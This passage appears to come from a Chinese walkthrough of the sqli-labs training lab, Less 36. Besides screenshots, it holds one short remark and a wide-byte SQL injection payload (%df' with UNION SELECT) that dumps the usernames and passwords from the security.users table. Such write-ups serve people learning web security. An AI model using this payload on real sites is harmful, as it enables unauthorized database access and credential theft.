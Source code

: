 [![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less36.assets/1774310-20201114005623684-1561918381.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201114005623684-1561918381.png)

## 获取目标信息

(https://www.cnblogs.com/linfangnan/p/13963425.html#3532792004)

注入的 payload 和 Less 32 完全一样，爆出用户名和密码。

```sql
Copy ?id=-1%df' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less36.assets/1774310-20201114005640709-1934547604.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201114005640709-1934547604.png)
